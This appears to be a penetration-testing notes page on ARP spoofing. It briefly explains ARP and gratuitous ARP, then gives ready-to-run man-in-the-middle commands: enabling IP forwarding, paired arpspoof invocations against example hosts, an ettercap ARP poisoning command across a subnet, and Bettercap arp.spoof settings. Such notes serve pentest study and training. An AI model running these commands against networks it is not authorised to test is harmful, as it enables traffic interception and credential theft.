 # 🟡 ARP Spoofing

## <mark style="color:red;">ARP</mark>

• An ARP request message should be placed in a frame and broadcast to all computers on the network

• Each computer receives the request and examines the IP address

• The computer mentioned in the request sends a response; all other computers process and discard the request without sending a response

![](<../../.gitbook/assets/image (293) (1) (1) (1) (1).png>)

## <mark style="color:red;">Gratuitous ARP</mark>

• Gratuitous ARP is used by hosts to “announce” their IP address to the local network and avoid duplicate IP addresses on the network; routers and other network hardware may use cache information gained from gratuitous ARPs

• Gratuitous ARP is a broadcast packet (like an ARP request)

![](<../../.gitbook/assets/image (277) (1) (1).png>)

HOST W: Hey everyone I’m host W and my IP Address is 1.2.3.4 and my MAC address is 12:34:56:78:9A:BC

## <mark style="color:red;">ARP Spoofing</mark>

### <mark style="color:orange;">arpspoof</mark>

```
arpspoof -t [target] -r [router]
```

example:

#### 1. Enable ip forwarding first

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

#### 2. tell 172.16.5.1 that if they need to communicate with 172.16.5.23 they must pass from the attacker system

```
arpspoof -i tap0 -t 172.16.5.1 -r 172.16.5.23 
```

#### now, in a separate terminal

#### 3. tell 172.16.5.23 that if the need to communicate with 172.16.5.1 they must pass from the pentester system

```
arpspoof -i tap0 -t 172.16.5.23 -r 172.16.5.1
```

### <mark style="color:orange;">Ettercap</mark>

```
ettercap [options] [target1] [target2]
```

example:

```
ettercap -T -q -M arp::remote /172.16.0.1-254//   /172.16.0.1-254//
```

### <mark style="color:orange;">Bettercap</mark>

#### Refer to [Bettercap cheat sheet](arp-spoofing.md#bettercap) for full documentation.

specify a number of IP addresses, comma=separated

```
set arp.spoof.targets IPs
```

turn ARP spoof on/off

```
arp.spoof on / off
```

#### When the arp.spoof module is started, Bettercap will automatically configure the OS features for the MitM attack (such as turning on IP forwarding on Linux systems)
